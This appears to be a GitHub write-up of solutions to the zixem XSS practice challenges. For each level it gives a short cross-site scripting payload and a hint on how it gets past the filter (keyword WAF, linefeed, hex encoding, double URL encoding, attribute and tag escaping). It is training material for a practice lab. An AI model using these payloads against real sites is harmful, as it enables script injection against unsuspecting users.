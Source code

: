 # XSS Challanges from https://www.zixem.altervista.org/XSS

## Level 1

```html
<svg/onload=alert()>
```
## Level 2

- WAF looking for "script"

```html
<object data="javascRipt:alert()">
```

## Level 3

- %0A (LF = linefeed)

```html
%0A<svg/onload=alert()>
```

## Level 4

- Inline html

```html
x' onerror=javascript:alert()//
```

## Level 5

- param reflected in form post field (action)

```html
XSS&action=javascript:alert(1337)
```

## Level 6

- Hex encodin \x

```
\x3c\x73\x76\x67\x20\x6f\x6e\x6c\x6f\x61\x64\x3d\x61\x6c\x65\x72\x74\x28\x29
```

## Level 7

- Double urlencodeing 

```html
%253Csvg%2520onload%253Dalert%2528%2529%253E
```

## Level 8

## Level 9
- Escape the html tag with ```</p>```

```
</p><svg/onload=alert()>
```

## Level 10
